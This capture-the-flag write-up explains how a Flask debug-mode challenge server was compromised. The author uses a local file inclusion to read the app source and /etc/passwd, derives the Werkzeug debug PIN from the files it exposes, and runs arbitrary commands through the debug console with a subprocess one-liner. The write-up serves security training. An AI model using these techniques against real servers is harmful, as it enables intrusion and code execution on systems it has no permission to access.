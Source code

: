 # Konsolation Prize

## Looking around
We have a web server that's running Flask on

http://hack.backdoor.infoseciitr.in:13456/

By trying some basic URL fuzzing techniques we find out that the /admin pages breaks it and that Flask is runnin in **debug** mode, since the /console page is reachable (but requires the debug PIN).

```html
jinja2.exceptions.TemplateNotFound: 
        {% % block body % %}
        <h1> The secret admin konsole </h1>
        <div class ="row">
        <div class = "col-md-6 col-md-offset-3 center" >
        Hey, you wanna hack the planet? Why don't you checkout <a href='/article?name=article'> article < /a >?
        /*I hope no one gets to see what I did up there*/
        </div>
        </div>
        {% % endblock % %}
```

and http://hack.backdoor.infoseciitr.in:13456/article?name=stuff

returns

```
[Errno 2] No such file or directory: 'stuff'
```

By requesting http://hack.backdoor.infoseciitr.in:13456/article?name=/src/app/server.py we can actually get the server's source code

```py
from flask import ( Flask, render_template, request, redirect, )

app = Flask(__name__)

@app.route("/admin", methods=["GET", "POST"])
def the_great_admin():
    template = '''
    {% % block body % %}
        <h1> The secret admin konsole </h1>
        <div class ="row">
            <div class = "col-md-6 col-md-offset-3 center" >
            Hey, you wanna hack the planet? Why don't you checkout <a href='/article?name=article'> article < /a >? 
            /*I hope no one gets to see what I did up there*/
            </div>
        </div>
    {% % endblock % %} ''' 
    return render_template(template)
    
@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")
    
@app.route('/article', methods=['GET'])
def article():
    if 'name' in request.args:
        page = request.args.get('name')
    else: page = 'article'
    if page.find('flag') >= 0:
        return redirect("https://www.youtube.com/watch?v=dQw4w9WgXcQ", code=302)
    try: template_lol = open(page).read()
    except Exception as e:
        template_lol = e
        return render_template('article.html', temp=template_lol)
        
if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=True, port=13456 )

```
## Getting the debug PIN using LFI
http://hack.backdoor.infoseciitr.in:13456/article?name=/etc/passwd also works so seems like we have a Local File Inclusion (LFI) vulnerability.

Since Werkzeug uses the device ID and the MAC to generate the debug PIN, we can exploit the LFI vuln to get the PIN and access the debug console:

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
- https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/\_\_init\_\_.py#L137


The attached script [getpin.py](getpin.py) automatically generates the debug PIN exploiting the LFI vuln to retrieve the device ID and the MAC.

**Disclaimer**: this is a custom script tailored to this specific challenge, as it takes care of stripping away from the LFI vulnerable page all the irrelevant data, only leaving the retrieved file.


![Screenshot of the debug console](image.png)

Now we have access to the Python debug console.
To run commands on the server we can just run the following commands in the console:

```py
import subprocess;import pprint
```

and then run a generic command with

```py
pprint.pprint([line for line in (subprocess.run(COMMAND.split(" "), stdout=subprocess.PIPE)).stdout.decode("utf-8").split("\n")])
```

It's not really the best console ever but it does the job.

After noticing there was no 'flag.txt' file as one would expected, I reached out to the admins who replied that the flag was somewhere on the server (meh).

After one hour of looking around and failing to launch `find` commands we finally find the flag in

`/usr/srv/youfoundmelol.txt`

